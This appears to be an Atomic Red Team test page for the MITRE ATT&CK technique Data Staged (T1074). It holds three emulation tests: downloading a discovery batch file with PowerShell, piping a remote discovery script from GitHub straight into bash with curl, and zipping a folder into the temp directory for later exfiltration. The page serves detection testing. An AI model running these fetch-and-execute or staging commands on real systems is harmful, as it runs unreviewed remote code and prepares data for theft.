 # T1074 - Data Staged

## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1074)

<blockquote>Collected data is staged in a central location or directory prior to Exfiltration. Data may be kept in separate files or combined into one file through techniques such as [Data Compressed](https://attack.mitre.org/techniques/T1002) or [Data Encrypted](https://attack.mitre.org/techniques/T1022).

Interactive command shells may be used, and common functionality within [cmd](https://attack.mitre.org/software/S0106)
and bash may be used to copy data into a staging location.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Stage data from Discovery.bat](#atomic-test-1---stage-data-from-discoverybat)

- [Atomic Test #2 - Stage data from Discovery.sh](#atomic-test-2---stage-data-from-discoverysh)

- [Atomic Test #3 - Zip a Folder with PowerShell for Staging in Temp](#atomic-test-3---zip-a-folder-with-powershell-for-staging-in-temp)

<br/>

## Atomic Test #1 - Stage data from Discovery.bat

Utilize powershell to download discovery.bat and save to a local file. This emulates an attacker downloading data
collection tools onto the host. Upon execution,
verify that the file is saved in the temp directory.

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| output_file | Location to save downloaded discovery.bat file | Path | $env:TEMP&#92;discovery.bat|

#### Attack Commands: Run with `powershell`!

```powershell
Invoke-WebRequest "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1074/src/Discovery.bat" -OutFile #{output_file}
```

#### Cleanup Commands:

```powershell
Remove-Item -Force #{output_file} -ErrorAction Ignore
```

<br/>
<br/>

## Atomic Test #2 - Stage data from Discovery.sh

Utilize curl to download discovery.sh and execute a basic information gathering shell script

**Supported Platforms:** Linux, macOS

#### Attack Commands: Run with `bash`!

```bash
curl -s https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1074/src/Discovery.sh | bash -s > /tmp/discovery.log
```

<br/>
<br/>

## Atomic Test #3 - Zip a Folder with PowerShell for Staging in Temp

Use living off the land tools to zip a file and stage it in the Windows temporary folder for later exfiltration. Upon
execution, Verify that a zipped folder named Folder_to_zip.zip
was placed in the temp directory.

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| input_file | Location of file or folder to zip | Path | PathToAtomicsFolder&#92;T1074&#92;bin&#92;Folder_to_zip|
| output_file | Location to save zipped file or folder | Path | $env:TEMP&#92;Folder_to_zip.zip|

#### Attack Commands: Run with `powershell`!

```powershell
Compress-Archive -Path #{input_file} -DestinationPath #{output_file} -Force
```

#### Cleanup Commands:

```powershell
Remove-Item -Path #{output_file} -ErrorAction Ignore
```

<br/>
